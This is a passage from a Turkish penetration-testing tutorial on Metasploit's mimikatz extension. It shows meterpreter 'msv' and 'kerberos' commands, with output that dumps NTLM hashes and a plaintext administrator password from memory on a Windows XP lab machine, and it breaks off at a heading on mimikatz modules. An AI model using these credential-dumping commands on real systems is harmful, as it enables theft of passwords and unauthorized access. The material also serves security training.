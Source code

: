 


Gördüğünüz gibi `drivers` modülünün, `noroutemon, eventdrop, cancelator, secrets` seçenekleri bulunmaktadır.



## RAM Hafızadan Hash ve Parola Okuma



RAM hafızadan Hash değerlerini ve parolaları okumak için Metasploit Framework’ün sağladığı kendi komutlarını kullanabileceğimiz gibi `mimikaz` modüllerini de kullanabiliriz.



## Metasploit Komutları ile Bilgi Elde etme


```bash
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;78980  NTLM       WINXP-E95CE571A1  Administrator     lm{ 00000000000000000000000000000000 }, ntlm{ d6eec67681a3be111b5605849505628f }
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;56683  NTLM                                          n.s. (Credentials KO)
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  n.s. (Credentials KO)

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     
0;56683  NTLM                                          
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   
0;78980  NTLM       WINXP-E95CE571A1  Administrator     SuperSecretPassword
```



## Mimikatz Modülleri ile Bilgi Elde Etme

